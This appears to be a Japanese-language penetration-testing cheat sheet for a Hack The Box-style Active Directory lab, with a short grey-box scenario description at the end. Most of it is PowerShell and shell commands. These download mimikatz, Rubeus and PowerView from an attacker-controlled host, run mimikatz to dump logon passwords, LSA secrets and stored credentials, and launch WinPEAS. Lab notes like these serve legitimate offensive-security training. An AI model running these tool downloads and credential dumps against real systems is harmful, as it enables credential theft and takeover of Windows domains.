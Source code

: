 ```Powershell
Invoke-WebRequest -Uri "http://$Attacker_IP:8080/mimikatz.zip" -OutFile "C:\Users\Public\Tools\mimikatz.zip"
# rubeus.zip
Invoke-WebRequest -Uri "http://$Attacker_IP:8080/rubeus.zip" -OutFile "C:\Users\Public\Tools\rubeus.zip"
Expand-Archive -Path "mimikatz.zip" -DestinationPath "mimikatz" -Force
Expand-Archive -Path "rubeus.zip" -DestinationPath "rubeus" -Force
import-module .\PowerView.ps1
```

Attacker_IPの変数が展開されないバージョン
```sh
Invoke-WebRequest -Uri "http://10.10.14.205:8080/PowerView.ps1" -OutFile "PowerView.ps1"
Invoke-WebRequest -Uri "http://10.10.14.205:8080/mimikatz.zip" -OutFile "mimikatz.zip"
Invoke-WebRequest -Uri "http://10.10.14.205:8080/rubeus.zip" -OutFile "rubeus.zip"
Expand-Archive -Path "mimikatz.zip" -DestinationPath "mimikatz" -Force
Expand-Archive -Path "rubeus.zip" -DestinationPath "rubeus" -Force
import-module .\PowerView.ps1
```

# 侵入できた後の列挙
## とりまMimikatz
ダウンロード
```sh
wget https://github.com/ParrotSec/mimikatz/raw/refs/heads/master/x64/mimikatz.exe
```

コピー
```sh
$url = 'http://172.16.1.100:1235/mimikatz.exe'
$dest = 'C:\Users\Public\mimikatz.exe'
(New-Object System.Net.WebClient).DownloadFile($url, $dest)
Test-Path $dest
```

実行
```ps
.\mimikatz.exe "privilege::debug" "log full.txt" "sekurlsa::logonpasswords" "lsadump::lsa" "lsadump::secrets" "exit"
```

## WinPEAS
```SH
./winPEASx64.exe
```





# ドメインの初期列挙
**シナリオ**
我々がSSHで接続できるように設定された、内部ネットワーク上のカスタムペンテスト用仮想マシン。
- 必要に応じてツールをインストールできるWindowsホストも提供。
- 認証なしの状態からテストを開始。ただし、Windowsホストにアクセスするための標準ドメインユーザーアカウント（htb-student）も提供。
- 「グレーボックス」形式のテスト。ネットワーク範囲として「172.16.5.0/23」が提供されており、それ以外のネットワーク情報は提供されていない。
- 非回避型テスト（つまり、検出されることを恐れずに実行する通常の手法）。
- 認証情報や内部ネットワークの詳細なマップは提供されていない。
